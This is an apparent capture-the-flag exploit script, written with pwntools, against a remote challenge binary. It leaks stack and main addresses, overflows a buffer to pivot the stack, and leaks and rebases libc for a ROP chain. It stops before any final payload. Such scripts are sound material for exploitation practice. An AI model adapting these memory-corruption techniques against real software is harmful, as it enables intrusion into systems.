 ```python
def toHex(data):
	return ''.join([hex(b)[2:].rjust(2, '0') for b in data])

def find_gadget(gadget):
	result = rop_libc.find_gadget(gadget)
	if not result:
		raise Exception(f'Gadget not found: {gadget}')
	return result.address + libc.address


libc = ELF(LIBC_PATH)
rop_libc = ROP(libc)

if IS_LOCAL:
	p = process('chall')
else:
	p = remote('challenges.shutlock.fr', 50010)

# start gdb and break
if IS_GDB:
	gdb.attach(p, '''
		b *upside_down_world_out
		continue
	''')


########################################### STEP 1 : leak stack address and main address
p.recvuntil('Who are you stranger')
p.sendline('A')
p.recv(100)

data = p.recv(100)
addr__main = u64(data[8*9:8*10])
stack = u64(data[8*4:8*5])

ADDR_MAIN = addr__main - 357
RELOOP_ADDR = ADDR_MAIN + 0x1cb
ADDR_STACK = stack + (8*16)
ADDR_STR_PATH_FLAG = ADDR_STACK - 0xCF
ADDR_SHELLCODE = 0x10000

log.info("<main> addr: " + hex(ADDR_MAIN))
log.info("Reloop addr: " + hex(RELOOP_ADDR))
log.info("<stack> addr: " + hex(ADDR_STACK))

########################################### STEP 2 : stack pivoting + leak __libc_start_call_main address
p.sendline(b'B'.ljust(72-8, b"\x00") + p64(stack+(8*14)) + p64(RELOOP_ADDR))
p.sendline(b'A')
p.recv(100)
p.recv(100)

data = p.recv(100)
ADDR_start_call_main = u64(data[8*11:8*12]) - OFFSET_start_call_main
ADDR_start_main = ADDR_start_call_main + OFFSET_START_CALL_MAIN_START_MAIN

log.info("<__libc_start_call_main> addr: " + hex(ADDR_start_call_main))
log.info("<libc__start_main> addr: " + hex(ADDR_start_main))

# Rebase libc
libc.address = ADDR_start_main - libc.symbols['__libc_start_main']
log.info("libc addr: " + hex(libc.address))

```